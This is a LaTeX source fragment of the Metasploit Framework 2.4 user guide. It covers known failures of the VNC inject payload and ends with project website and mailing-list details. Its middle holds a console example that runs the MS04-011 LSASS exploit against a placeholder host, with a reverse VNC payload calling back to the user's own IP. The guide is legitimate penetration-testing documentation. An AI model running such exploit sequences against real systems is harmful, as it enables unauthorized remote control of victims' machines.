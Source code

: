 \documentclass{report}
\begin{document}
\par
As of the 2.4 release, there are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The cabrightstor\_uniagent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
	\item The executables generated by \texttt{msfpayload}'s 'X' option are not
	will cause the VNC payload to crash after spawning the command shell.
\end{itemize}

\begin{verbatim}
msf > use lsass_ms04_011
msf lsass_ms04_011 > set RHOST some.vuln.host
RHOST -> some.vuln.host
msf lsass_ms04_011 > set PAYLOAD win32_reverse_vncinject
PAYLOAD -> win32_reverse_vncinject
msf lsass_ms04_011(win32_reverse_vncinject) > set LHOST your.own.ip
LHOST -> your.own.ip
msf lsass_ms04_011(win32_reverse_vncinject) > set LPORT 4321
LPORT -> 4321
msf lsass_ms04_011(win32_reverse_vncinject) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}


\section{Web Site}
\par
The metasploit.com web site is the first place to check for updated modules and
new releases. This web site also hosts the Opcode Database and a decent shellcode
archive.  

\section{Mailing List}
\par
You can subscribe to the Metasploit Framework mailing list by sending a blank
email to framework-subscribe[at]metasploit.com. This is the preferred way to
submit bugs, suggest new features, and discuss the Framework with other users.
The mailing list archive can be found online at:
\url{http://metasploit.com/archive/framework/threads.html}
\end{document}
